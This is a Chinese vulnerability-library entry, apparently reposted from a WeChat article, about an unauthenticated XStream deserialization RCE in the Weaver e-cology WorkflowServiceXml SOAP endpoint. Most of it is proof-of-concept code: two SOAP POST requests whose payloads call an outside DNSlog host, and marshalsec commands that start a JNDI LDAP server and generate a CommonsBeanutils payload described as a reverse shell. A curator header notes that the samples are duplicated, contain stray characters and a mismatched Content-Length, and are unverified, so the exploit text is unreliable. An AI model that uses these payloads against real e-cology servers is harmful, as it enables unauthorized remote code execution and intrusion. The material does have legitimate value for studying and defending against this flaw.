





# 泛微e-cology WorkflowServiceXml XStream反序列化链

## 条目说明

- 对象与具体问题：泛微e-cology；WorkflowServiceXml XStream反序列化链
- 版本、配置及部署条件：声称<=9.0；CommonsBeanutils/JNDI、JDK远程加载与出网前提未列
- 认证与权限前提：声称未授权；services%20路径
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 两个SOAP样本基本重复且有杂散点号、声明Content-Length10994不符
- 所谓编码后样本未展示XML字符串编码转义转换；DOM结构是否正确需核对
- DNS回调仅支持外联，RCE成果仅截图；未给完整执行请求
- 应与后续WorkflowServiceXml详文互补，不能与同名接口SQL注入直接去重

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DVlZC5jU6MQQqUoM2gKTBg)



x 微 E-Cology WorkflowServiceXml RCE

‍‍

一、漏洞描述

泛微 E-cology OA 系统的 WorkflowServiceXml 接口可被未授权访问，攻击者调用该接口，可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程代码执行。

‍二、漏洞影响

E-cology <= 9.0

‍三、漏洞复现‍‍

访问主页：  



POC：

```http
POST /services%20/WorkflowServiceXml HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 10994
Host: xxx
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
.      <web:string>
        <map>
          <entry>
            <url>http://thelostworld.dnslog.cn</url>
            <string>http://thelostworld.dnslog.cn</string>
          </entry>
        </map>
        </web:string>
        <web:string>2</web:string>
.      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

> 请求长度说明：原资料 Content-Length 为 10994；保留原始标头；其数值未据实际请求体重新计算或验证。

编码：



```http
POST /services%20/WorkflowServiceXml HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 10994
Host: xxx
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
.      <web:doCreateWorkflowRequest>
      <web:string>
        <map>
          <entry>
            <url>http://thelostworld.dnslog.cn</url>
            <string>http://thelostworld.dnslog.cn</string>
          </entry>
        </map>
        </web:string>
.        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

> 请求长度说明：原资料 Content-Length 为 10994；保留原始标头；其数值未据实际请求体重新计算或验证。

或者直接：  

利用 marshalsec 生成反弹 shell  payload

启动 jndi ：ldap 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Exploit
```

生存 poc：  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream CommonsBeanutils ldap://127.0.0.1:1389/Exploit > payload.xml
```

DNSlog：  



执行命令  



参考：  

https://mp.weixin.qq.com/s/-eTSGvjuygGxULHcw6lOMg

http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEE-Cology%20WorkflowServiceXml%20RCE.html?h=%E6%B3%9B%E5%BE%AEE-Cology%20WorkflowServiceXml%20RCE

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld


欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  


‍

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
